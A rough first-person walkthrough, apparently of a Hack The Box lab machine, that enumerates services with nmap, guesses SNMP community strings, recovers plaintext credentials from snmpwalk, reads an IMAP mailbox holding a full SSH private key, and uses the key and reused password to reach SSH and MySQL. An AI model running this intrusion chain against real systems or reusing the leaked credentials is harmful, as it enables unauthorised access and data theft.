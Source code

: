 


```
[haxor@skid ~]$ nmap -sC -sV 10.129.63.255
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-24 05:53 UTC
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 51.30% done; ETC: 05:53 (0:00:00 remaining)
Nmap scan report for 10.129.63.255
Host is up (0.083s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
110/tcp open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_pop3-capabilities: SASL(PLAIN) RESP-CODES TOP USER PIPELINING CAPA STLS AUTH-RESP-CODE UIDL
143/tcp open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: more SASL-IR post-login have capabilities AUTH=PLAINA0001 ENABLE LOGIN-REFERRALS listed OK ID Pre-login STARTTLS IMAP4rev1 IDLE LITERAL+
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: more post-login have capabilities AUTH=PLAINA0001 ENABLE LOGIN-REFERRALS listed OK ID Pre-login IDLE IMAP4rev1 SASL-IR LITERAL+
995/tcp open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_pop3-capabilities: PIPELINING SASL(PLAIN) TOP RESP-CODES UIDL CAPA AUTH-RESP-CODE USER
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


openssl s_client --connect 10.129.149.212:imaps


since i dont really get anything like that I check for SNMP

sudo nmap -sC -sV 10.129.63.255 -p 161,162 -sU





PORT    STATE  SERVICE  VERSION
161/udp open   snmp     net-snmp; net-snmp SNMPv3 server
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 5b99e75a10288b6100000000
|   snmpEngineBoots: 11
|_  snmpEngineTime: 10m33s
162/udp closed snmptrap





and find the EMAIL address and more info

i see its snmp walk v3 
 snmpwalk -v 3 -c public 10.129.63.255



onesixtyone -c SecLists/Discovery/SNMP/snmp.txt 10.129.63.255


I scan with Onesixtyone





I Then try to use SNMP walk to walk the backup community


snmpwalk -v2c -c backup 10.129.63.255

and get 


HOST-RESOURCES-MIB::hrSystemMaxProcesses.1.2.1.3.6.66.65.67.75.85.80 = Wrong Type (should be INTEGER): STRING: 


I find the Password in snmp walk

"tom NMds732Js2761"





So i login to imaps


a login tom NMds732Js2761



```
a fetch 1 body[]
* 1 FETCH (BODY[] {3661}
HELO dev.inlanefreight.htb
MAIL FROM:<tech@dev.inlanefreight.htb>
RCPT TO:<bob@inlanefreight.htb>
DATA
From: [Admin] <tech@inlanefreight.htb>
To: <tom@inlanefreight.htb>
Date: Wed, 10 Nov 2010 14:21:26 +0200
Subject: KEY

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
)
a OK Fetch completed (0.003 + 0.000 + 0.002 secs).
```



I get a ssh key

HELO dev.inlanefreight.htb
MAIL FROM:<tech@dev.inlanefreight.htb>
RCPT TO:<bob@inlanefreight.htb>
DATA
From: [Admin] <tech@inlanefreight.htb>
To: <tom@inlanefreight.htb>
Date: Wed, 10 Nov 2010 14:21:26 +0200
Subject: KEY

Then use that key with tom


ssh -i key tom@10.129.63.255


I look at the bash hisotry file and see that tom uses my sql so i try with his password


NMds732Js2761



I go 

show databases;

use users;

show tables;

select * from users ;


